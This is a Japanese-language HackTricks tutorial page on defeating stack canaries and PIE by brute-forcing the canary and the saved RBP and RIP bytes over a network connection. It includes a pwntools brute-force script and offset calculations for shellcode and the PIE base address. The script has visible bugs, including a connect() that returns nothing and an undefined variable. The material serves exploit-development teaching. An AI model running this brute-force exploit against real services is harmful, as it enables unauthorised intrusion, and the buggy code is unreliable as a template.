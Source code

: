 # BF Addresses in the Stack

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**カナリアとPIE（位置独立実行可能ファイル）で保護されたバイナリに直面している場合、これらをバイパスする方法を見つける必要があります。**

![](<../../../.gitbook/assets/image (865).png>)

{% hint style="info" %}
**`checksec`** は、バイナリがカナリアで保護されていることを見つけられない場合があります。これは静的にコンパイルされており、関数を特定できないためです。\
ただし、関数呼び出しの最初にスタックに値が保存されており、その値が終了前にチェックされることを見つけることで、手動で気づくことができます。
{% endhint %}

## ブルートフォースアドレス

**PIEをバイパスするためには、** **いくつかのアドレスをリークする必要があります。** バイナリがアドレスをリークしていない場合、最善の方法は、**脆弱な関数内のスタックに保存されたRBPとRIPをブルートフォースすることです。**\
たとえば、バイナリが**カナリア**と**PIE**の両方で保護されている場合、カナリアをブルートフォースし始め、その後の8バイト（x64）が保存された**RBP**であり、次の8バイトが保存された**RIP**になります。

{% hint style="success" %}
スタック内の戻りアドレスは、メインバイナリコードに属していると考えられています。脆弱性がバイナリコードにある場合、通常はその通りです。
{% endhint %}

バイナリからRBPとRIPをブルートフォースするには、有効な推測バイトが正しい場合、プログラムが何かを出力するか、単にクラッシュしないことを確認できます。カナリアをブルートフォースするために提供された**同じ関数**を使用して、RBPとRIPをブルートフォースできます：
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
PIEを打破するために必要な最後のことは、**漏洩した**アドレスから**有用なアドレス**を計算することです：**RBP**と**RIP**です。

**RBP**から、**スタックにシェルを書き込んでいる場所**を計算できます。これは、スタック内の文字列_"/bin/sh\x00"_を書き込む場所を知るのに非常に役立ちます。漏洩したRBPとシェルコードの間の距離を計算するには、**RBPを漏洩させた後にブレークポイントを置き**、**シェルコードがどこにあるかを確認**するだけです。次に、シェルコードとRBPの間の距離を計算できます：
```python
INI_SHELLCODE = RBP - 1152
```
**RIP**から**PIEバイナリのベースアドレス**を計算できます。これは**有効なROPチェーン**を作成するために必要です。\
ベースアドレスを計算するには、`objdump -d vunbinary`を実行し、最新のアドレスを逆アセンブルして確認します：

![](<../../../.gitbook/assets/image (479).png>)

この例では、すべてのコードを特定するために**1バイトと半分だけが必要**であることがわかります。この場合、ベースアドレスは**漏洩したRIPの最後が「000」**になります。たとえば、`0x562002970ecf`が漏洩した場合、ベースアドレスは`0x562002970000`です。
```python
elf.address = RIP - (RIP & 0xfff)
```
## 改善

[**この投稿からのいくつかの観察**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#extended-brute-force-leaking)によると、RBPおよびRIP値を漏洩させる際に、サーバーは正しい値でないいくつかの値ではクラッシュしない可能性があり、BFスクリプトは良い値を取得したと考えることがあります。これは、**正確な値でなくても、いくつかのアドレスがそれを壊さない可能性があるためです**。

そのブログ投稿によると、サーバーへのリクエストの間に短い遅延を追加することが推奨されています。

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
